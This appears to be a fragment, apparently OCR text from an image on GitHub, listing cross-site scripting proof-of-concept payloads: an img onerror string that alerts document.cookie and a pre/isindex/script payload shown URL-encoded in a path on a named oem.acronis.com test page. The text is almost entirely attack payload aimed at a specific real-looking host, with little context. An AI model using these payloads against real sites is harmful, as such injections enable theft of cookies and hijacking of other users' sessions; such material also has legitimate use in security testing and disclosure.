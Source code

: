 -  **abc’”><><img src=1 onerror=alert(document.cookie)>**
- 
- <pre></pre><isindex type=image src=1 onerror=alert(9166)><script>alert(origin)</script>   =>  <https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E>
- 

